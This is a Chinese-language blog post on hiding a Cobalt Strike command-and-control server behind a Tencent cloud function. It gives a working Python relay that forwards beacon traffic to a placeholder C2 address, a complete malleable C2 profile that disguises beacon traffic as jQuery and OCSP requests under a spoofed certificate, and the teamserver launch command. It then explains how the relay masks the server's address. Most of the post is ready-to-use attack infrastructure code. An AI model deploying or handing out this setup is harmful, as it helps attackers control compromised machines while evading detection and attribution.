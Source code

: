 # 利用云函数隐藏C2服务器


隐藏C2服务器的手法有很多，如：
- 域前置
- CDN
- 第三方代理软件（heroku）
- 云函数

## 配置云函数
这里先介绍云函数了，
云函数的创建参考上一篇文章：http://www.xpshuai.cn/2022/06/13/%E5%88%A9%E7%94%A8%E4%BA%91%E5%87%BD%E6%95%B0%E9%9A%90%E8%97%8FWebshell%E7%9C%9F%E5%AE%9EIP/，

只是代码部分略有不同：
```python
# -*- coding: utf8 -*-
import json,requests,base64
def main_handler(event, context):
    C2='http://<C2服务器地址>' # 这里可以使用 HTTP、HTTPS~下角标~
    path=event['path']
    headers=event['headers']
    print(event)
    if event['httpMethod'] == 'GET' :
        resp=requests.get(C2+path,headers=headers,verify=False) 
    else:
        resp=requests.post(C2+path,data=event['body'],headers=headers,verify=False)
        print(resp.headers)
        print(resp.content)

    response={
        "isBase64Encoded": True,
        "statusCode": resp.status_code,
        "headers": dict(resp.headers),
        "body": str(base64.b64encode(resp.content))[2:-1]
    }
    return response


```


点击API服务名：
![20220614141805](http://image.geoer.cn/20220614141805.png)
点击编辑：
![20220614141944](http://image.geoer.cn/20220614141944.png)

路径修改为`/`，点击下一步：
![20220614142034](http://image.geoer.cn/20220614142034.png)

配置如下，点击完成：
![20220614142122](http://image.geoer.cn/20220614142122.png)



## 配置cs
### 配置CS的profile文件
```bash
set sample_name "kris_abao";

set sleeptime "3000";
set jitter    "0";
set maxdns    "255";
set useragent "Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/96.0.4664.110 Safari/537.36";

https-certificate 
{

    set keystore "cobaltStrike.store"; //生成的cs证书名
    set password "123456";    //自己设置的密码

    ## Option 3) Cobalt Strike Self-Signed Certificate
    set C   "US";
    set CN  "jquery.com";
    set O   "jQuery";
    set OU  "Certificate Authority";
    set validity "365";
}

http-get 
{

    set uri "/api/getit";

    client {
        header "Accept" "*/*";
        metadata {
            base64;
            prepend "SESSIONID=";
            header "Cookie";
        }
    }

    server {
        header "Content-Type" "application/ocsp-response";
        header "content-transfer-encoding" "binary";
        header "Server" "Nodejs";
        output {
            base64;
            print;
        }
    }
}
http-stager 
{  
    set uri_x86 "/vue.min.js";
    set uri_x64 "/bootstrap-2.min.js";
}
http-post {
    set uri "/api/postit";
    client {
        header "Accept" "*/*";
        id {
            base64;
            prepend "JSESSION=";
            header "Cookie";
        }
        output {
            base64;
            print;
        }
    }

    server 
    {
        header "Content-Type" "application/ocsp-response";
        header "content-transfer-encoding" "binary";
        header "Connection" "keep-alive";
        output {
            base64;
            print;
        }
    }
}


```



### 开启cs teamserver
```bash
./teamserver vpsip password c2.profile
```


**Note:**
上线地址 需要去掉`http://`和`:80`
取`service-miuk9icj-1309081727.bj.apigw.tencentcs.com`
![20220614154332](http://image.geoer.cn/20220614154332.png)



### 创建监听
![20220614154545](http://image.geoer.cn/20220614154545.png)

成功上线，可以看到外部IP第一栏是不断变化的，也就是隐藏了我们C2服务器
![20220614162832](http://image.geoer.cn/20220614162832.png)


附：
删掉测试机器上的恶意exe：
```bash
# 查找进程
tasklist /svc |findstr XXX.exe
# 根据pid杀进程
taskkill /T /F /PID 9718
# 根据进程名杀进程
 taskkill /f /t /im XXX.exe 
```

## 云函数隐藏C2原理
马er -> 腾讯云函数api -> py函数 -> CS服务端

CS马被执行后，流量直接走向腾讯云的api（也就是这一步达成了隐藏C2服务端的目的，腾讯地址，有腾讯的CDN），然后py函数会根据传入的流量作为中间人对CS服务端进行请求，并获取返回结果后返回请求获取的数据信息（py代码的请求内容和CS服务端加载的profile是相对应的，CS服务端根据py函数传入的数据来获取相关信息）


---

> 作者: [剑胆琴心](http://shuai06.github.io)  
> URL: https://shuai06.github.io/%E5%88%A9%E7%94%A8%E4%BA%91%E5%87%BD%E6%95%B0%E9%9A%90%E8%97%8Fc2%E6%9C%8D%E5%8A%A1%E5%99%A8/  

